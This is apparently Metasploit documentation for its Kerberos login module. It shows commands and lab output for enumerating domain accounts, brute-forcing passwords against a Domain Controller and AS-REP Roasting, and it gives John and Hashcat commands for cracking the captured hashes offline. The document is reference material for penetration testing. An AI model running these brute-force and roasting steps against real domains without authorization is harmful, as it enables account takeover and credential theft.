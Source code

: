 ## Kerberos Login/Bruteforce

The `auxiliary/scanner/kerberos/kerberos_login` module can verify Kerberos credentials against a range of machines and
report successful logins. If you have loaded a database plugin
and connected to a database this module will record successful
logins and hosts so you can track your access. It will also
store kerberos tickets that can be used even after the user's
password has been changed.

Kerberos accounts which do not require pre-authentication will
have the TGT logged for offline cracking, this technique is known as AS-REP Roasting.

This module is able to identify the following information from the KDC: 

- Valid/Invalid accounts
- Locked/Disabled accounts
- Accounts with expired passwords, when the password matches
- AS-REP Roastable accounts

## Target

To use the `kerberos_login` module, make sure you are able to connect to the
Kerberos service on a Domain Controller.

## Scenarios

### Creating a single Kerberos ticket (TGT)

To create a single Kerberos ticket (TGT), set the username and password options:

```msf
msf auxiliary(scanner/kerberos/kerberos_login) > run rhost=192.168.123.133 domain=DEMO.local username=basic_user password=password verbose=true
[*] Using domain: DEMO.LOCAL - 192.168.123.133:88   ...
[+] 192.168.123.133 - User found: "basic_user" with password password
[*] Auxiliary module execution completed
```

### Auth Brute

The following demonstrates basic usage, using a custom wordlist,
targeting a single Domain Controller to identify valid domain user
accounts and additionally bruteforcing passwords:

Create a new `./users.txt` file and `./wordlist.txt`, then run the module:

```msf
msf auxiliary(gather/kerberos_enumusers) > run rhost=192.168.123.133 domain=DEMO.local user_file=./users.txt pass_file=./wordlist.txt verbose=true
[*] Using domain: DEMO.LOCAL - 192.168.123.133:88   ...
[+] 192.168.123.133 - User: "basic_user" is present
[*] 192.168.123.133 - User: "basic_user" wrong password invalid2
[*] 192.168.123.133 - User: "basic_user" wrong password p4$$w0rd
[*] 192.168.123.133 - User: "basic_user" wrong password test_password
[+] 192.168.123.133 - User found: "basic_user" with password password. Hash: $krb5asrep$23$basic_user@DEMO.LOCAL:959b983f9cffc093002d9cd8a20...etc...
[*] 192.168.123.133 - User: "foo" user not found
[*] 192.168.123.133 - User: "foo_bar" user not found
[+] 192.168.123.133 - User: "Administrator" is present
[*] 192.168.123.133 - User: "Administrator" wrong password invalid2
[*] 192.168.123.133 - User: "Administrator" wrong password p4$$w0rd
[*] 192.168.123.133 - User: "Administrator" wrong password test_password
[*] 192.168.123.133 - User: "Administrator" wrong password password
[+] 192.168.123.133 - User: "no_pre_auth" does not require preauthentication. Hash: $krb5asrep$23$no_pre_auth@DEMO.LOCAL:a714f0553589cbd78...etc...
[+] 192.168.123.133 - User: "admin" is present
[*] 192.168.123.133 - User: "admin" wrong password invalid2
[*] 192.168.123.133 - User: "admin" - Kerberos Error - KDC_ERR_KEY_EXPIRED (23) - Password has expired - change password to reset
[*] 192.168.123.133 - User: "admin" wrong password test_password
[*] 192.168.123.133 - User: "admin" wrong password password
[*] Auxiliary module execution completed
```

### ASREPRoasting

Accounts that have `Do not require Kerberos preauthentication` enabled, will receive an ASREP response with a ticket-granting-ticket present.
The technique of cracking this ticket offline is called ASREPRoasting.

Cracking ASREP response with John:

```
john ./hashes.txt --wordlist=./wordlist.txt --format:krb5asrep
```

Cracking ASREP response with Hashcat:

```
hashcat -m 18200 -a 0 ./hashes.txt ./wordlist.txt
```

You can see previously cracked creds with:

```
creds -v
```

## Options

The `kerberos_login` module only requires the `RHOST`, `DOMAIN` and
`USER_FILE` options to run.

### The DOMAIN option

This option is used to specify the target domain. If the domain name is
incorrect an error is returned and domain user account enumeration will fail.

An example of setting DOMAIN:

```
set DOMAIN [domain name]
```

### The USER_FILE option

This option is used to specify the file containing a list of user names
to query the Domain Controller to identify if they exist in the target domain
or not. One per line.

An example of setting USER_FILE:

```
set USER_FILE [path to file]
```

### The PASS_FILE option

If you happen to manage all the found passwords in a separate file, then this option would be
suitable for that. One per line.

```
set PASS_FILE [path to file]
```

### The USERPASS_FILE option

If each user should be using a specific password in your file, then you can use this option. One
username/password per line:

```
set USERPASS_FILE [path to file]
```

### The DB_ALL_CREDS option

This option allows you to reuse all the user names and passwords collected by the database:

```
set DB_ALL_CREDS true
```

### The DB_ALL_PASS option

This option allows you to reuse all the passwords collected by the database.

```
set DB_ALL_PASS true
```

### The DB_ALL_USERS option

This option allows you to reuse all the user names collected by the database.

```
set DB_ALL_USERS true
```

### The Timeout option

This option is used to specify the TCP timeout i.e. the time to wait
before a connection to the Domain Controller is established and data read.

An example of setting Timeout:

```
set Timeout [value in seconds]
```
